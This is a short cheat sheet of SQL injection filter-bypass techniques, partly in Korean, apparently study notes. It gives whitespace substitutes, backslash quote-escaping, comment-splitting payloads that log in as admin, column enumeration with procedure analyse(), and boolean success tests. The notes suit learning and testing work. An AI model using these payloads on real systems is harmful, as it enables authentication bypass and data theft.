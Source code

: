 <br />

Numeric Character Filtering

```php
0 -> '!'='@' -> false
1 -> '!'='!' -> true
```

<br />

White Space Filtering (%20)

```
%20 -> %0a %0b %0c %0d %09
```

<br />

Single Quoter Filtering (%27)

```php
Use Double Quote in Single Quote
if '\' not Filtering
-> select TEST from TABLE where id='\' and pw=' or 1#
parameter : id=\&pw=%20or%201%23
```

<br />

Comment Injection

```php
'#'의 주석 범위는 1 line이다. 1 line을 나누는 기준은 %0a로 나눈다.
-> select test1 from TABLE where id='abc'# and pw='%0a or id='admin'%23
'/* */'
-> select test1 from TABLE where id='abc'/* and pw=''*/ or id='admin'%23
```

<br />

Table and Column

```mysql
select test1 from test where id='admin' and pw='1234' procedure analyse();
```

-> Use with limit 2,1

<br />

SQL Injection Attack Success

```
Use '(Single Quoter) Error
-> ' and '1'='1 , ' and '1'='2
앞은 정상적 출력되고 뒤는 출력이 안나면 성공
' or '1'='1 -> 정상 출력 되면 성공
Number Column
-> if idx=23001 == idx=23002-1 이렇게 넣었을때 정상 출력 되면 성공
Comment
-> #(%23), -- (--%20), %0a
```
